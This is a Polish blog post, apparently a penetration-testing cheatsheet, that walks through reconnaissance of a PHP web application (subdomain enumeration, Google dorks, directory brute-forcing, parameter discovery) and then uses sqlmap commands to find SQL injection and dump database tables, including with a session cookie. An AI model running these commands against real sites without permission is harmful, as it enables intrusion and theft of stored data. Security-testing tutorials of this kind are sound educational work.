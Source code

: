 ```yaml
---
layout: post
title: SQL-injection - quick and dirty way
subtitle: Testowanie bezpieczeństwa webowej aplikacji napisanej w PHP
#gh-repo: daattali/beautiful-jekyll
#gh-badge: [star, fork, follow]
tags: [PHP,pentesting,security]
comments: true
---
```



Szybki #pwn-ing aplikacji webowej.
Artykuł ten może służyć jako cheatsheet do testów penetracyjnych aplikacji webowej napisanej w języku PHP. Skupiony jest głównie na poszukiwaniu podatności typu SQL-injection z wykorzystaniem gotowych narzędzi, ale niektóre jego elementy przy delikatnej modyfikacji mogą znaleźć zastosowanie w innych przypadkach. Na chwilę obecną nie zamierzam również dokładnie opisywać działania wszystkich użytych narzędzi, być może w przyszłości artykuł zostanie rozbity na mniejsze, bardziej szczegółowe części. Tymczasem, przejdźmy do sedna.

Załóżmy że celem naszych testów będzie domena example.com

## Zbieranie informacji o subdomenach:


### https://dnsdumpster.com

Podajemy nazwę domeny w celu wyszukania rekordów DNS. Zapisujemy zwrócone Host Records (A) które będą nam potrzebne do dalszej analizy.

### https://crt.sh

Strona crt.sh pozwala wyszukać zarejestrowane certyfikaty dla danej domeny. Przy użyciu wildcard-a możemy także wyszukać subdomeny.

%.example.com


### dnsenum -
Link: https://github.com/fwaeytens/dnsenum

```
dnsenum example.com  -f /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --threads 50
```  

### Google dorks:

Przy pomocy wyszukiwarki google możemy znaleźć wiele informacji przydatnych podczas pentestów, przykładowo:

__Pliki PHP__

```
site:example.com inurl:php
```

__parametry HTTP__

```
inurl:example.com/index.php
```

Jeżeli powyższy dork zwraca dużą ilosć wyników możemy go ogarniczyć poprzez usunięcie z wyników niechcianych ciągów znaków. 
```
inurl:example.com/index.php -id
```
Pozwoli nam to na łatwiejsze odnalezienie pozostałych parametrów HTTP.


__Foldery z włączonym listowaniem plików__

```
site:example.com title:Index of

site:example.com Parent Directory
```

__Kopie bezpieczeństwa__

```
site:example.com backup
```



## Brutforce contentu strony:  


### Dirbuster - korzystamy z GUI
Preinstalowany w dystrybucji Kali Linux
https://tools.kali.org/web-applications/dirbuster

Dirbuster pozwoli nam na znalezienie zamieszczonych na serwerze www folderów i plików. Najbardziej interesują nas te z rozszerzeniem *.php Warto jednak przejrzeć wszystkie znaleziska. Podczas przeprowadzanych przeze mnie testów bezpieczeństwa zdarzyły się sytuacje gdzie folder odnaleziony pod adresem http://example.com/backup zawierał backup bazy danych lub kodu aplikacji. Często możemy się również natknąć podatność typu Full Path Disclosure.

target url: https://example.com 
Jako target możemy również wybrać wszystkie subdomeny znalezione poprzez opisane wcześniej metody.
Słownik - /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
zaznaczamy checkboxy - Brute Force Dirs, Be Recursive, Brute Force 
Files File extension: php

Czasem zdarza się że WAF/IDS/IPS nie pozwoli nam na jednoczesny bruteforce plików i katalogów, w takiej sytuacji możemy spróbować przeprowadzić dwa oddzielne testy.
W ustawieniach narzędzia warto również zmienić domyślny nagłówek Http User Agent. W tym celu wybieramy Options > Advanced Options > Http Options

### Gobuster

Podobnie jak Dirbuster pozwala nam bruteforce zawartości serwera www. Nie posiada on jednak GUI


Link: https://github.com/OJ/gobuster

```
gobuster dir -u https://example.com/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -e -t 50 -x php
```


### Arjun
Link: https://github.com/s0md3v/Arjun

Arjun pomaga nam dowiedzieć się jakie parametry HTTP mogą być przekazywane do aplikacji webowej. Załóżmy sytuację w której za pomocą Google dorks znaleźliśmy adres https://example.com/index.php. Nie znając zawartości pliku index.php nie wiemy jakie parametry może przyjmować. 

```
python3 arjun.py -u https://example.com/index.php
```

Znalezione w ten sposób parametry można później wykorzystać przy szukaniu podatności typu XSS lub SQL-injection.



## Do tej pory powinniśmy zebrać informacje takie jak:


### Subdomeny:

subdomain1.example.com
subdomain2.example.com
(...).example.com

### Pliki php umieszczone na serwerach www:

http://example.com/index.php
https://domain2.example.com/posts.php

### Parametry HTTP przekazywane do aplikacji webowej.

http://example.com/index.php?id=2
https://domain2.example.com/posts.php?name=test

Do wyszukania podatności SQL-i wykorzystamy narzędzie 

### sqlmap
https://github.com/sqlmapproject/sqlmap


```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --dbs --batch
```

Jeżeli testujemy aplikację w kontekscie zalogowanego użytkownika  do komendy należy dodać jego ciasteczka.

```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --dbs --batch --cookies="PHPSESSID=oikbs8qcic2omf5gnd09kihsm7"
```

Przy znalezionej podatności opcja --dbs pozwoli nam pobrać nazwy baz danych. Listujemy tabele wybranej bazy danych poprzez opcję --tables
 
```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --batch -D NAZWABAZYDANYCH --tables --cookies="PHPSESSID=oikbs8qcic2omf5gnd09kihsm7"
```

Następnie za pomocą opcji --columns wyświetlamy nazwy kolumn.

```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --batch -D NAZWABAZYDANYCH -T NAZWATABELI --columns --cookies="PHPSESSID=oikbs8qcic2omf5gnd09kihsm7"
```

Znamy już nazwy tabel oraz zawartych w nich kolumn, aby pobrać ich zawartość wykonujemy polecenie:

```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --batch -D NAZWABAZYDANYCH -T NAZWATABELI -C NAZWAKOLUMNY1,NAZWAKOLUMNY2 --dump --cookies="PHPSESSID=oikbs8qcic2omf5gnd09kihsm7"
```


